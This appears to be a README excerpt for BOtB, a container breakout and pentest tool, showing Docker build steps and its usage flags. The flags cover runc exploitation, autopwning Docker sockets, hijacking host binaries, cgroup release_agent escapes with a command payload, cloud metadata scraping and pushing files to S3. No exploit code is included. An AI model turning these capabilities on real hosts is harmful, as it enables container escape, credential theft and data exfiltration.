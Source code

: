 Building a static binary in Docker:
```
docker build -t botb .
docker run -it --name botb botb
docker cp botb:/botb .
docker rm botb
```

# Usage
BOtB can be compiled into a binary for the targeted platform and supports the following usage
```
Usage of ./botb:
-aggr string
        Attempt to exploit RuncPWN (default "nil")
  -always-succeed
        Always set BOtB's Exit code to Zero
  -autopwn
        Attempt to autopwn exposed sockets
  -cicd
        Attempt to autopwn but don't drop to TTY,return exit code 1 if successful else 0
  -config string
        Load config from provided yaml file (default "nil")
  -endpointlist string
        Provide a textfile with endpoints to test (default "nil")
  -find-docker
        Attempt to find Dockerd
  -find-http
        Hunt for Available UNIX Domain Sockets with HTTP
  -find-sockets
        Hunt for Available UNIX Domain Sockets
  -hijack string
        Attempt to hijack binaries on host (default "nil")
  -metadata
        Attempt to find metadata services
  -path string
        Path to Start Scanning for UNIX Domain Sockets (default "/")
  -pwn-privileged string
        Provide a command payload to try exploit --privilege CGROUP release_agent's (default "nil")
  -recon
        Perform Recon of the Container ENV
  -region string
        Provide a AWS Region e.g eu-west-2 (default "nil")
  -s3bucket string
        Provide a bucket name for S3 Push (default "nil")
  -s3push string
        Push a file to S3 e.g Full command to push to https://YOURBUCKET.s3.eu-west-2.amazonaws.com/FILENAME would be: -region eu-west-2 -s3bucket YOURBUCKET -s3push FILENAME (default "nil")
  -scrape-gcp
        Attempt to scrape the GCP metadata service
  -verbose
        Verbose output
  -wordlist string
        Provide a wordlist (default "nil")

```
